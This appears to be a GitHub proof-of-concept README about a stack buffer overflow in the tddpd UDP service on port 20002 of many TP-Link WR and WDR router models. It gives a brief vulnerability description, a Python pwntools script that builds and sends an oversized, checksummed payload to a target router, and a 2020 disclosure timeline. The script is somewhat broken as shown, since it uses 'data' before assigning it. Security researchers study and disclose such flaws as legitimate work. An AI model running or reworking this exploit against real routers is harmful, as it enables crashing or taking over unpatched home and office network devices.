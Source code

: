 # TP-LINK-POC_2

TP-Link router have a stack overflow in tddpd server via port 20002.

Any user can get remote code execution through LAN, this vulnerability currently affects latest WR、WDR series, including WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N,WR842N,WR802N,WR710N,WR706N,WR702N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description 

This vulnerability happen when tddpd server receive data by usinng recvfrom `udp port 20002`.Then with a series data processing,it arrive `memcopy`,we can contorl `a1` and `v5`that It lead to a stack buffer overflow to execute arbitrary code.

**It's different from CVE-2020-28877**

![](./poc.png)

## poc

Refer to this video: [poc_video](./poc.mkv)

**poc**

```
#!/usr/bin/env python
# coding=utf-8
from pwn import *
if len(sys.argv)<3:
    print "Usage exp.py <target ip> <local ip>"
    exit(-1)
def critical(msg):
    sys.stdout.write('[\x1B[31m*\x1b[0m] ')
    for i in msg:
        sys.stdout.write(i)
        sleep(0.05)
    sleep(1)
def log(msg):
    sys.stdout.write('[\x1B[32m*\x1b[0m] ')
    sys.stdout.write(msg)
#REMOTE_IP="192.168.1.1"
REMOTE_IP=sys.argv[1]
LOCAL_IP=sys.argv[2]
#LOCAL_IP="192.168.1.101"
REMOTE_PORT=20002
LOCAL_LISTEN_PORT=8080
context.log_level='error'
context.endian='big'
context.arch='mips'
data+='\x00\x00\x00\x01'*16
data+=p32(0xcafebabe)*0x10000 # it can lead to buffer flowover
len2=len(data)
len1=4+len2
hash=0x5a6b7c8d

payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(0x5a6b7c8d)
payload+= p16(1)+p16(len2)+data

kk=0
for i in range(len(payload)//4):
    kk=(kk+u32(payload[4*i:4*i+4]))%0x100000000
info("hash 0x%x"%kk)
payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(kk)
payload+= p16(1)+p16(len2)+data
p=remote(REMOTE_IP,REMOTE_PORT,typ='udp')
sleep(1)
for i in range(10):
    sys.stdout.write('.')
    sleep(1)
print ''
p.send(payload)

```

## Timeline

2020.10.24 show in GeekPwn

2020.12.01 report to CVE and TP-Link

2020.12.12 TP-Link reply and fix it
